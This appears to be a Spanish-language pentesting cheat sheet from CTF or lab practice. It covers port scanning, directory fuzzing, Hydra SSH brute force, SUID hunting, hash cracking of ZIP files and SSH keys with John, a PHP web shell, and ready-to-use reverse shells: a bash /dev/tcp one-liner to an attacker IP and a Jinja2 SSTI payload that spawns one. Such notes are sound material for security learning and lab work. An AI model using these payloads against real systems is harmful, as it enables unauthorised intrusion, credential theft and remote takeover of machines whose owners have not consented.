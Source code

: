 ## 🛠️ Herramientas, comandos y servicios usados

### 🔍 Nmap
Escanea puertos y detecta servicios.
```
nmap -p- --open -A -sS -Pn -n <IP>

    -p-: escanea todos los puertos.
    
    --open: muestra solo los puertos abiertos.
    
    -A: detección de sistema y versión.
    
    -sS: escaneo SYN, más sigiloso.
    
    -Pn: no hace ping previo.
    
    -n: no resuelve nombres DNS. 
```

---

### 🪓 Gobuster
Hace fuzzing para encontrar directorios o archivos ocultos.
```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,py,html,txt,js

    -w: diccionario.

    -x: extensiones que queremos probar.
```

---

### 🏹 Ffuf
Fuzzing para probar parámetros o rutas.
```
ffuf -c -t 200 -fc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://<IP>/index.php?FUZZ=/etc/passwd"

    -fc 404: ignora errores 404.
    
    -t 200: usa 200 hilos (va más rápido).
    
    -u: URL con FUZZ donde se probarán los valores.
```

---

### 🔐 Hydra
Fuerza bruta contra servicios de autenticación.
```
hydra -L usuarios.txt -p purpl3 -I ssh://172.17.0.2 -V -F -u

    -L usuarios.txt: lista de nombres de usuario. Si solo fuera un usuario lo indicamos y ponemos -l.
    
    -p purpl3: usa la contraseña "purpl3" para todos los usuarios. Si fuera ir probando + de una contraseña seria -P y usar por ejemplo el diccionario rockyou.
    
    -I: retoma sesión interrumpida si existe.
    
    ssh://172.17.0.2: objetivo y protocolo (SSH).
    
    -V: muestra cada intento de login (modo verboso).
    
    -F: para al encontrar una combinación válida.
    
    -u: prueba usuario a usuario, no combinaciones completas.

```

---

###  🔎 Find permisos SUID
Busca archivos ejecutables con bit SUID activado (ejecutables con privilegios del dueño).
```
find / -perm -4000 -user root 2>/dev/null

    /: busca desde la raíz del sistema.
    
    -perm -4000: busca archivos con bit SUID activado.
    
    -user root: limitados a archivos propiedad del usuario root(o el que especifiques).
    
    2>/dev/null: oculta errores (por ejemplo, por falta de permisos).

```

---

### 🐍 Python Shell Escalation
Ejecuta una shell Bash desde un script Python, útil para escalar privilegios si se ejecuta como root.
```
import os;
os.system("/bin/bash")
```

---

### 📡 Reverse Shell + Canal de Escucha
Permite tomar control remoto de una máquina: se abre un listener (atacante) y se conecta desde la víctima.

Abre un puerto (3344) a la espera de conexiones.
```
nc -lvnp 3344

-l: escucha.

-v: salida detallada.

-n: no resuelve DNS.

-p 3344: puerto a escuchar.
```

Ejecuta una shell interactiva que redirige entrada/salida hacia la IP del atacante (172.17.0.1) y puerto (3344).
```
bash -c "bash -i >& /dev/tcp/172.17.0.1/3344 0>&1"
```
> 🧠 Nota: Si se lanza desde navegador o HTTP (por ejemplo en una URL), reemplaza & por %26 para evitar que se corte el comando.

---

### 🎨 Ajustes de Terminal Remota
Configura el entorno de shell para una mejor compatibilidad y apariencia al conectarse por SSH o shells limitadas.
```
export TERM=xterm-256color
export SHELL=/bin/sh
source /etc/skel/.bashrc
```

---

## 🔐 Extraer Contraseña de un Archivo `.zip`

1. Extraer el hash del archivo `.zip`:
```
zip2john archivo.zip > hash.txt
```

2. Crackear el hash con John the Ripper:
```
john hash.txt --wordlist=/ruta/al/diccionario.txt
```

3. Ver la contraseña encontrada:
```
john --show hash.txt
```

---

## 🧬 Decodificar Base64

Para decodificar una cadena codificada en Base64:

```
echo "cGFzc3dvcmQ=" | base64 -d
```

> Esto mostrará la cadena original ("password" en este ejemplo).

---

## 🐘 Ejecución Remota de Comandos en PHP

Si una aplicación web permite pasar comandos a través de la URL (por ejemplo, usando `?cmd=`), puede estar expuesta a ejecución remota de comandos.

Un ejemplo común de código vulnerable en PHP es:

```
<?php
system($_GET['cmd']);
?>
```

Este fragmento permite que cualquier usuario ejecute comandos en el sistema operativo desde el navegador, simplemente añadiendo el parámetro `cmd` en la URL. Por ejemplo:

```
http://victima.com/shell.php?cmd=whoami
```

> ⚠️ Este tipo de código representa una **grave vulnerabilidad** de ejecución remota (RCE).

---

## 🧠 SSTI (Server-Side Template Injection)

1. Comprobar si es vulnerable:
```
{{7*7}}
```

Si la salida es `49`, es vulnerable a SSTI (por ejemplo, en motores Jinja2).

2. Ejecutar reverse shell si es vulnerable:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/3344 0>&1\'').read() }}
```

> Se abusa del acceso interno a objetos del entorno para importar `os` y lanzar una shell remota.

---

## 🔑 Crackear Passphrase de Clave SSH Privada (`id_rsa`)

Cuando tienes una clave SSH protegida con passphrase:

1. Extraer el hash:
```
ssh2john id_rsa > hash.txt
```

2. Crackear el hash:
```
john hash.txt --wordlist=/ruta/diccionario.txt
```

3. Ver la passphrase obtenida:
```
john --show hash.txt
```

---

## ⚔️ Usar un Exploit Público

Para ver cómo utilizar un exploit en Python (parámetros disponibles, etc.):

```
python3 /ruta/exploit.py -h
```

